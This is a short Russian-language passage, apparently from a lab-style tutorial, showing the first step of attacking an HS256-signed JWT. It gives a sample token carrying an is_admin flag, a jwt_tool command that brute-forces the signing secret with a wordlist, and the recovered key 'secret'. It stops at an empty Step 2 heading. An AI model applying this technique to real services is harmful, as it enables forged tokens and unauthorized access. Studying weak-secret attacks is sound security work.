 ### Шаг 1

Берем JWT подписаный с помощью алгоритма HS256:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc
```


Используем jwt_tool для брутфоса:

```bash
python2 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc /tmp/wl.txt
```

![](img/brute_1.png)


и находим секретный ключ. В данном случае в качестве ключа использовалась строка secret.

### Шаг 2
